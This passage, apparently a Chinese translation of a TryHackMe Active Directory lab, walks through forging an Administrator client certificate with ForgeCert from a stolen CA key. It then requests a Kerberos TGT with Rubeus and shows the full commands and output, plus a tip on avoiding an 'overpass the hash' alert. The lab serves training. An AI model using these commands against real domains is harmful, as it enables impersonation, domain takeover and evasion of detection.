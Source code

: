 ### 生成我们自己的证书

现在我们拥有了私钥和根 CA 证书，我们可以使用 SpectorOps [ForgeCert](https://github.com/GhostPack/ForgeCert) 工具为任何我们想要的用户伪造一个客户端认证证书。ForgeCert 和 Rubeus 二进制文件存储在 THMWRK1 的 C:\Tools \ 目录中。让我们使用 ForgeCert 来生成一个新的证书：

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123
```

参数解释：

- CaCertPath - 我们导出的 CA 证书的路径。
- CaCertPassword - 用于加密证书的密码。默认情况下，Mimikatz 分配的密码是 mimikatz。
- Subject - 证书的主题或通用名称。在我们将要使用证书的情境下并不重要。
- SubjectAltName - 这是我们想要使用这个证书伪装的账户的用户主体名称（UPN）。它必须是一个合法的用户。
- NewCertPath - ForgeCert 将生成的证书存储的路径。
- NewCertPassword - 由于证书将需要导出的私钥进行身份验证，我们必须设置一个用于加密它的新密码。

我们可以使用 Rubeus 使用证书请求一个 TGT，以验证证书是否受信任。我们将使用以下命令：

```shell
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate: /password: /outfile: /domain:za.tryhackme.loc /dc:
```

让我们分解一下这些参数：

- /user - 这指定了我们将要冒充的用户，并且必须与我们生成的证书的 UPN 匹配。
- /enctype - 这指定了票据的加密类型。设置这个参数很重要，因为默认的加密算法是弱的，这可能会导致一个 “超越哈希” 警报。
- /certificate - 我们生成的证书的路径
- /password - 我们证书文件的密码
- /outfile - 我们的 TGT 将输出到的文件
- /domain - 我们当前攻击的域的完全限定域名（FQDN）
- /dc - 我们从中请求 TGT 的域控制器的 IP。通常最好选择一个运行 CA 服务的 DC

一旦我们执行命令，我们应该会收到我们的 TGT：

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/

         v2.0.0

       [*] Action: Ask TGT

       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'za.tryhackme.loc\Administrator'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):

             doIGADCCBfygAwIBBaEDAgEWooIE+jCCBPZhggTyMIIE7qADAgEFoREbD0xVTkFSLkVSVUNBLkNPTaIk
             MCKgAwIBAqEbMBkbBmtyYnRndBsPbHVuYXIuZXJ1Y2EuY29to4IErDCCBKigAwIBEqEDAgECooIEmgSC
             BJaqEcIY2IcGQKFNgPbDVY0ZXsEdeJAmAL2ARoESt1XvdKC5Y94GECr+FoxztaW2DVmTpou8g116F6mZ
             nSHYrZXEJc5Z84qMGEzEpa38zLGEdSyqIFL9/avtTHqBeqpR4kzY2B/ekqhkUvdb5jqapIK4MkKMd4D/
             MHLr5jqTv6Ze2nwTMAcImRpxE5HSxFKO7efZcz2glEk2mQptLtUq+kdFEhDozHMAuF/wAvCXiQEO8NkD
             zeyabnPAtE3Vca6vfmzVTJnLUKMIuYOi+7DgDHgBVbuXqorphZNl4L6o5NmviXNMYazDybaxKRvzwrSr
             2Ud1MYmJcIsL3DMBa4bxR57Eb5FhOVD29xM+X+lswtWhUO9mUrVyEuHtfV7DUxA94OvX1QmCcas4LXQW
             ggOit/DCJdeyE8JjikZcR1yL4u7g+vwD+SLkusCZE08XDj6lopupt2Hl8j2QLR2ImOJjq54scOllW4lM
             Qek4yqKwP6p0oo4ICxusM8cPwPUxVcYdTCh+BczRTbpoKiFnI+0qOZDtgaJZ/neRdRktYhTsGL39VHB5
```